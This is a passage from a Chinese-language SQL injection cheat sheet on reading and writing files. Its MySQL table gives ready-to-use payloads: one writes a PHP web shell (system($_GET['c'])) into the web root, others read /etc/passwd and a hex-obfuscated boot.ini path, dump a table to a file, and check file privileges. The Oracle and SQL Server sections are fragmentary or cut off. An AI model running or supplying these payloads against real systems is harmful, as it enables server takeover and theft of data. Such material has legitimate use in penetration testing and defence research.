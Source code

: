 
### **5、读写文件**

读取和写入文件有助于数据收集和数据泄露。许多方法包括写入 webroot，这可以执行 webshell，或允许数据通过端口 80/443 被泄露。

#### MySQL

`*`需要特权用户

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>转储到文件</td><td align="center">SELECT * FROM mytable INTO dumpfile '/tmp/somefile'</td></tr><tr><td>写入 PHP Shell 到文件</td><td align="center">SELECT 'system($_GET['c']); ?&gt;' INTO OUTFILE '/var/www/shell.php'</td></tr><tr><td>读文件</td><td align="center">SELECT LOAD_FILE('/etc/passwd')</td></tr><tr><td>读取混淆的文件</td><td align="center">SELECT LOAD_FILE(0x633A5C626F6F742E696E69)<br>reads c:\boot.ini</td></tr><tr><td>文件权限</td><td align="center">SELECT file_priv FROM mysql.user WHERE user = 'netspi'<br>SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%netspi%'</td></tr></tbody></table>

#### Oracle

有时可以使用 UTL\_FILE。检查以下是否为非 null

```
如果安装了Java（Oracle Express中不可用），可用于读取和写入文件。
```

#### SQL Server

`*`需要特权用户
